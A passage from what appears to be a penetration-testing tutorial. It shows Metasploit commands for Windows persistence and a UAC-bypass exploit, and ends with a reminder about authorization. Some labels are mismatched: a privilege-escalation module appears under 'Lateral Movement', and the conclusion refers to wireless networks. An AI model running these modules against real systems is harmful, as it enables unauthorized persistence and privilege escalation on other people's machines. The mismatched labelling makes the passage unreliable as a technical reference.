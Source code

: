   ```bash
   use post/windows/manage/persistence
   set SESSION 1
   run
   ```

4. **Lateral Movement**:
   Utilize techniques like Pass-the-Hash, credential dumping, and lateral movement tools to escalate privileges.

   ```bash
   use exploit/windows/local/bypassuac_injection
   set SESSION 1
   run
   ```

### Conclusion

These advanced methods require a more profound understanding of network protocols, penetration testing techniques, and the usage of various tools. Remember, ethical guidelines and the legal landscape must always guide such practices. Conduct these exercises in a controlled environment with explicit authorization to provide valuable insights into securing wireless networks and improving cybersecurity defenses.

